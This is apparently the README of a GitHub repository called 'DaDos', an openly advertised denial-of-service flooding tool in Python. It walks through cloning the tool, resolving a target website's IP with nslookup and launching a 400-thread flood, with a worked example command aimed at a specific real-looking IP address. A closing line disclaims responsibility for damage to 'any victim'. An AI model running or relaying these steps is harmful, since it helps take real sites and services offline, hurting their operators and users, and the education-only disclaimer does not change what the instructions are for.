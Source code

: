 # DaDos
Easy to use DDoS tool written in Python

USAGE:

pip install dnsutils

git clone https://github.com/daniisaahir/DaDos

nslookup example.com

(Copy the site IP address)

cd DaDos

python run.py -s (Server IP address) -p (Port, default is 80) -t (Thread, default is 400)

EXAMPLE:

python run.py -s 104.18.167.65 -p 80 -t 400


FOR EDUCATION/TESTING PURPOSE ONLY, I AM NOT RESPONSIBLE FOR ANY DAMAGE TO ANY VICTIM
